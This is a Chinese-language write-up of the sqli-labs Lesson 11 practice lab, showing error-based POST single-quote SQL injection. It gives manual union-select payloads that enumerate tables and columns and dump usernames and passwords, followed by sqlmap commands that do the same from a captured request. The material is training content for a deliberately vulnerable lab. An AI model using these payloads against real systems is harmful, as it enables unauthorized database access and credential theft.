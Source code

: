 ```yaml
---
title: sqli-labs lession-11 基于错误的POST单引号字符型注入
date: 2018-09-27 09:13:12
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-11 基于错误的POST单引号字符型注入 #

---

## 登录界面 ##

![1](/img/sql/Lesson-11/1.png)

## 手注 ##

### POST ###

这是一个POST请求,可以输入信息查看一下。

分别输入admimn和aad

![2](/img/sql/Lesson-11/2.png)

POST拿到了我的输入:

![3](/img/sql/Lesson-11/3.png)

hackbar插件勾选Post.自动填充了POST参数。

![4](/img/sql/Lesson-11/4.png)

### 判断类型 ###

那个hackbar在这里不好用,心疼。

![5](/img/sql/Lesson-11/5.png)

返回报错信息,看来单引号是有效果的,添加#注释。

![6](/img/sql/Lesson-11/6.png)

执行成功。接下来的步骤和Lesson-1差不多了。

### 字段数 ###

![7](/img/sql/Lesson-11/7.png)

![8](/img/sql/Lesson-11/8.png)

![9](/img/sql/Lesson-11/9.png)

确定字段数为2。

### 数据库信息 ###

`adminn' union select database(),@@datadir#`

![10](/img/sql/Lesson-11/10.png)

### 获取表 ###

`adminn' union select database(),(select group_concat(table_name,"--") from information_schema.tables where table_schema = database())#`

![11](/img/sql/Lesson-11/11.png)

获取到了表名:emails,referers,uagents,users

### 获取字段 ###

`adminn' union select database(),(select group_concat(column_name,"--") from information_schema.columns where table_name ='users')#`

![12](/img/sql/Lesson-11/12.png)

获取到了字段:id,username,password

### 获取值 ###

`adminn' union select 1,group_concat(username,":",password,"\n") from users#`

![13](/img/sql/Lesson-11/13.png)

## SQLMAP ##

firefox浏览器设置代理

![14](/img/sql/Lesson-11/14.png)

用Burpsuite抓包,确认接口开启

![15](/img/sql/Lesson-11/15.png)

输入任意字符后点击submit,我这里用的都是xxx

![16](/img/sql/Lesson-11/16.png)

Burpsuite抓到包含POST请求的包

![17](/img/sql/Lesson-11/17.png)

按图保存文件

![18](/img/sql/Lesson-11/18.png)

`sqlmap -r sqlpost/post11.txt -p uname --dbs --technique ES --threads 10`

--threads 选择线程数

-p 指定注入的POST参数

--technique ES

E:Error-based   （报错型注入）

S:Starked queries   （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）

![19](/img/sql/Lesson-11/19.png)

`sqlmap -r sqlpost/post11.txt -p uname -D security -T users --columns --dump`

![20](/img/sql/Lesson-11/20.png)